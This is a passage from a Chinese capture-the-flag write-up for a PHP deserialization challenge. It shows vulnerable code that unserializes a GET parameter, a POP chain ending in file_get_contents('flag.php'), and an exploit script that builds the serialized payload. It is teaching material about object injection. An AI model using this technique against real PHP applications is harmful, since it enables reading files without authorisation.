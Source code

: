 ```php
            else 
            { 
                return "you must be joking!"; 
            }    
        }
    }  
}  
  
class sec 
{  
    function read()     
    {          
        return "it's so sec~~";      
    }  
}  

if (isset($_GET['data']))  
{ 
    $Input_data = unserialize($_GET['data']);
    echo $Input_data; 
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?>
```

容易构造出 pop chain 如下:

```php
baby::__toString()
cool::read()
file_get_contents('flag.php')
```

需要满足的条件：

1.`$this->nice->aaa === $this->nice->bbb`，设置 nice = new baby(), baby->bbb = &baby->aaa 即可。

exp:

```php
<?php
class baby {   
    protected $skyobj;  
    public $aaa;
    public $bbb;
    public function __construct() {
        $this->skyobj = new cool();
        $this->bbb = &$this-> aaa;
    }
}  

class cool {    
    public $filename;     
    public $nice;
    public $amzing;
    public function __construct() {
        $this->filename = 'flag.php';
        $this->amzing = 'O:4:"baby":3:{s:9:" * skyobj";N;s:3:"aaa";N;s:3:"bbb";R:3;}';
    }
}
echo urlencode(serialize(new baby()));
?>
```
